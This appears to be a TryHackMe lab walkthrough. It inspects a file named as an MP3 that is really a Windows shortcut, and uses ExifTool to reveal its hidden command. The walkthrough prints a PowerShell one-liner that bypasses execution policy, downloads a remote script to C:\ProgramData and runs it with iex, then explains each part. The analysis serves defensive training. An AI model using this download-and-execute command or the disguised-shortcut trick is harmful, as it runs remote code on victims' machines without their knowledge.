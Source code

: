 Check File 2 Terminal

```shell-session
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a `.lnk` file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect `.lnk`  files to reveal the embedded commands and attributes. For this room, however, we'll use **ExifTool**, which is already installed on this machine.

To do this, go back to your Terminal and type:

Using Exiftool Terminal

```shell-session
user@tryhackme:~$ exiftool somg.mp3
```

```shell-session
Relative Path : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Working Directory : C:\Windows\System32\WindowsPowerShell\v1.0 Command Line Arguments : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)" Machine ID : win-base-2019
```

It's downloading some kind of file!
A powershell script is will run in the background!
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"

What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.


I tried visiting the link and saw this:

PowerShellScript Terminal:

```powershell

function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

```